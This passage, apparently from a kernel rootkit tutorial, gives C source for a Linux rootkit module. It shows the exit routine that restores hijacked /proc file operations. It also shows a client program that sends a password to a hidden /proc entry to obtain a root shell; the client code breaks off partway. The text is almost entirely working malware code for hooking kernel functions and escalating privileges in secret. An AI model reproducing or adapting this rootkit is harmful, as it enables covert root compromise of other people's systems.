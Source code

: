 ```cpp
	rootkit_protect();

	return 0 ;

}

static void __exit rootkit_exit(void)
{
	/* If failed, we don't have to do any cleanups */	
	if (failed)
		return;
	root_fops->readdir = old_proc_readdir;
	fops->write = old_fops_write;
	fops->read = old_fops_read;
	ptr->write_proc = old_write;
	ptr->read_proc = old_read;
}

module_init(rootkit_init);
module_exit(rootkit_exit);
```

Take a look at example program which sends commands to our entry:

```cpp
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <errno.h>
#include <sys/stat.h>

#include "rootkit_conf.conf.h"

char file[64];
char command[64];
int root = 0;

int main(int argc, char *argv[]) {
	if(argc < 2) {
		fprintf(stderr, "Usage: %s <command>\n", argv[0]);
		return 1;
	}
	int fd ;
	/* We get path to infected entry */
	sprintf(file, "/proc/%s", passwaiter);
	/* If sent command is equal to command which has to give us root, we must run shell at the end */
	if(!strcmp(argv[1], password))
		root = 1;
	/* At first we try to write command to that entry */
	fd = open(file, O_WRONLY) ;
	if(fd < 1) {
		printf("Opening for writing failed! Trying to open for reading!\n");
		/* Otherwise, we send command by reading */	
		fd = open(file, O_RDONLY);
		if(!fd) {
			perror("open");
			return 1;
		}
		read(fd, argv[1], strlen(argv[1]));
	}
	else 
		write(fd, argv[1], strlen(argv[1]));
```